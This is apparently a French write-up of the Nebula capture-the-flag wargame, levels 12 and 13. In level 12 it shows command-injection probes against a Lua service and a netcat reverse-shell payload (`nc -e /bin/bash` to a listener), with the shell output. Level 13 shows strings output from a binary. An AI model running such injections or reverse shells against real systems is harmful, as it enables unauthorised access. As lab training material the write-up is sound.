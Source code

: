 Je ne suis pas familier avec Lua mais cet appel à `popen` me laisse penser qu'il y a une injection de commande possible.

J'ai tenté quelques injections classiques :

```bash
level12@nebula:/home/flag12$ nc 127.0.0.1 50001 -v
Connection to 127.0.0.1 50001 port [tcp/*] succeeded!
Password: id
Better luck next time
level12@nebula:/home/flag12$ nc 127.0.0.1 50001 -v
Connection to 127.0.0.1 50001 port [tcp/*] succeeded!
Password: sleep 10
Better luck next time
level12@nebula:/home/flag12$ nc 127.0.0.1 50001 -v
Connection to 127.0.0.1 50001 port [tcp/*] succeeded!
Password: ;sleep 10;
Better luck next time
level12@nebula:/home/flag12$ nc 127.0.0.1 50001 -v
Connection to 127.0.0.1 50001 port [tcp/*] succeeded!
Password: `sleep 10`
Better luck next time
```

Sur cette dernière j'obtiens une temporisation, l'injection a bien eu lieu. J'injecte la commande `nc.traditional -e /bin/bash 192.168.56.1 4444` et j'obtiens mon reverse shell :

```bash
$ ncat -l -p 4444 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:51397.
id
uid=987(flag12) gid=987(flag12) groups=987(flag12)
getflag
You have successfully executed getflag on a target account
```

## Level 13

Un `strings` sur le binaire nous laisse supposer qu'l fait des calculs sur la chaine bizarre avant de l'afficher si effectivement `getuid` retourne ce qu'il attend.

```bash
level13@nebula:~$ strings ../flag13/flag13 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
exit
puts
__stack_chk_fail
printf
getuid
__libc_start_main
GLIBC_2.4
GLIBC_2.0
PTRhp
UWVS
[^_]
Security failure detected. UID %d started us, we expect %d
The system administrators will be notified of this violation
8mjomjh8wml;bwnh8jwbbnnwi;>;88?o;9ob
your token is %s
;*2$"(
```